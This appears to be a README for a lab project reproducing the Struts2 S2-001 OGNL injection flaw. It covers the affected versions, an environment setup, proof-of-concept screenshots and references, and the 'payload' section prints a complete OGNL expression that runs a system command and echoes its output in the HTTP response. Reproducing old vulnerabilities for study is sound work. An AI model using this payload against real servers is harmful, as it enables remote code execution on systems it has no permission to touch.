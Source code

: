 # S2-001 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `WebWork 2.1` (with `altSyntax` enabled), `WebWork 2.2.0` - `WebWork 2.2.5`, Struts 2.0.0 - Struts 2.0.8

Problem: The `'altSyntax'` feature of `WebWork 2.1`+ and Struts 2 allows `OGNL` expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an `OGNL` expression that will then be executed by the server if the form validation has failed.

## Environment

Struts2 Version: `struts-2.0.1-all`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

## POC

![{BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731]({BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731.jpg)

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042]({FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

## payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)


